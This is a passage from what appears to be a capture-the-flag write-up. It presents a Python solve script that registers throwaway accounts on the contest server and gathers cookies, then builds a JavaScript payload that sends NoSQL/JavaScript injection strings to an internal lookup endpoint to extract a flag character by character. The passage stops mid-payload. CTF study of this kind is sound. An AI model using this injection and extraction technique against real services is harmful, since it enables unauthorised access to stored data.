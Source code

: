 This script is error-resilient and self-resurrecting because the server is just bad.

But luckily at this time the participants are mostly asleep or have given up, so my script ran smoothly during the last hour of the CTF.

```python
import base64
import random
import time
import requests
import socketio
import json

BAD_WORDS = json.loads(open("bad_words.json").read())

target = "http://165.22.50.111:8000"

def get_cookie():
    try:
        s = requests.Session()
        uname = "kumo"+str(random.randint(10000, 99999))
        password = "kumokumo"
        r=s.post(f"{target}/auth/register", data={
            "name": "kumo",
            "email":f"{uname}@kumo.kumo",
            "username": uname,
            "password": password
        })
        r=s.post(f"{target}/auth/login", data={
            "username": uname,
            "password": password
        })
        cookie_header = "; ".join([f"{k}={v}" for k, v in s.cookies.items()])
        if f"const username = '{uname}';" in r.text:
            print("[*] Logged in successfully")
            return cookie_header, uname
        else:
            time.sleep(1)
            return get_cookie()
    except Exception as e:
        print("Error during get_cookie:", e)
        time.sleep(1)
        return get_cookie()
#const charset = `0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!#$%&'()*+,-./:;<=>?@[\\]^_\\\`{|}~\`;

prefix = ""

def get_payload(prefix):
    async_code = """
const charset = `0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!#$%&'()*+,-./:;<=>?@[\\\\]^_\\`{|}~`;
const needEscape = `'"\\``;
const arr = charset.split('').map(c => needEscape.includes(c) ? '\\\\' + c : c);
for(let c of arr){
    let code = c.charCodeAt(0);
    fetch(
    `http://auth:3000/lookup`,
    {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({username: `' || (this.note&&this.note.startsWith('D')&&this.note.charCodeAt(INDEX)===${code}) || '`})
```